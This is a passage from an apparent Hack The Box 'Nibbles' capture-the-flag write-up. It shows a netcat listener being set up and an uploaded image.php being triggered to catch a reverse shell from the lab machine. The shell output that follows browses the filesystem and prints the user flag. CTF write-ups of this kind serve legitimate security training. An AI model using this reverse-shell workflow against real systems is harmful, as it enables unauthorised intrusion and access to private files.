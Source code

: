![[Pasted image 20220618010252.png]]

found `image.php`!!!
click for triger to reverse shell
before doing this we need preparation

```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nibbles]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
```

and now click `image.php`

```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nibbles]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.75] 51714
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:06:31 up  6:10,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ pwd
/
$ ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd home
$ ls
nibbler
$ cd nibbler
$ ls
personal.zip
user.txt
$ cat user.txt
c2281da6744aa023506476f7142521e6
```
